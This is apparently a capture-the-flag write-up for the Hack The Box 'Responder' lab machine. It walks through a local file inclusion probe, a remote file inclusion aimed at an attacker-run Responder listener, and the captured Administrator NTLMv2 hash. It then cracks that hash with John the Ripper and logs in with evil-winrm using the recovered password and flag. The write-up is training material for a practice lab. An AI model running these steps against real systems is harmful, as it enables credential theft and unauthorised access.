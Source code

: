 ###Responder room

First is to check if it is vulnerable to LFI attack.

`http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts`

WE can see the result

````
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names.
# Each entry should be kept on an individual line.
The IP address should # be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one # space.
#
# Additionally, comments (such as these) may be inserted on individual # lines or following the machine name denoted by a '#' symbol.
# # For example: # # 102.54.94.97 rhino.acme.com # source server # 38.25.63.10 x.acme.com # x client host # localhost name resolution is handled within DNS itself. # 127.0.0.1 localhost # ::1 localhost
````

We then open our responder

`responder -I tun0`

and we will do RFI (Remote File Include)

`http://unika.htb/index.php?page=//10.10.14.215/aaa`

and on our responder we can see the `NTLMv2` of Administrator

```
Administrator::RESPONDER:fdea865f07bc2668:546E83868F3EAEC154C019873ED904AA:
010100000000000000E1DFC8BAFDD901B0CFC75372BD4F57000000000200080033004800350
0490001001E00570049004E002D00550036004F005A00340033004B004C00310054004D0004
003400570049004E002D00550036004F005A00340033004B004C00310054004D002E0033004
800350049002E004C004F00430041004C000300140033004800350049002E004C004F004300
41004C000500140033004800350049002E004C004F00430041004C000700080000E1DFC8BAF
DD9010600040002000000080030003000000000000000010000000020000084188D94109414
8508741E1E1D0CBD2DA83FD99D4773C1A23859AE3F781BCA2D0A00100000000000000000000
0000000000000000900220063006900660073002F00310030002E00310030002E0031003400
2E003200310035000000000000000000
```

We then save the whole result and save it in a text file and we will use `john the ripper` tool to crack the the hash and retreive the password.

`john -w=/user/share/wordlist/rockyou.txt hash.txt`

```
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2023-10-13 09:53) 33.33g/s 136533p/s 136533c/s 136533C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

We can see that we cracked the password.

We then use `evil-winrm` to connect to the machine.

`evil-winrm -u administrator -p badminton -i 10.129.88.25`

By going to Users folder we can see another user `mike`, we can then see the flag on the Desktop folder

`Evil-WinRM* PS C:\Users\mike\Desktop> type flag.txt
ea81b7afddd03efaa0945333ed147fac`

